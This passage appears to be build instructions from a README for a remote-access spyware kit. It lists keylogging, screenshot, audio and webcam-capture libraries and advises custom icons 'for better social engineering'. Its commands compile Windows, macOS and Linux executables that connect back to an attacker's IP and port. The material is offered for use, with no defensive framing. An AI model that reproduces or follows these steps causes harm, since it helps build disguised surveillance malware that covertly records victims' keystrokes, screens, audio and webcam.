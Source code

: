 The builder will auto-install PyInstaller **and all required libraries from requirements.txt**, but you can install manually:

```bash
# Install PyInstaller
pip install pyinstaller

# Install required libraries (done automatically by build script)
pip install -r ../requirements.txt
```

**What gets installed automatically:**

- PyInstaller (for building executables)
- pynput (keylogger functionality)
- Pillow (screenshot capture)
- pyautogui (screen automation)
- pyaudio (audio recording)
- opencv-python (webcam capture)

**Note:** The `build_executable.py` script automatically runs `pip install -r requirements.txt` before building, ensuring all dependencies are available.

### Step 2: Prepare Icons (Optional but Recommended)

Create custom icons for better social engineering:

1. **Windows**: Place `windows.ico` in `icons/` folder
2. **macOS**: Place `macos.icns` in `icons/` folder

See `icons/README.md` for icon creation instructions.

### Step 3: Build Executable

```bash
python3 build_executable.py [ATTACKER_IP] [ATTACKER_PORT] [PLATFORM]
```

**Parameters:**

- `ATTACKER_IP`: Your IP address (where server.py runs)
- `ATTACKER_PORT`: Your listening port (default: 5555)
- `PLATFORM`: Target platform (windows/macos/linux/all)

**Examples:**

```bash
# Windows exe with custom IP
python3 build_executable.py 203.0.113.50 4444 windows

# macOS app with default port
python3 build_executable.py 192.168.1.100 5555 macos

# Linux binary
python3 build_executable.py 10.0.0.50 8080 linux

# All platforms at once
python3 build_executable.py 192.168.1.100 5555 all
```
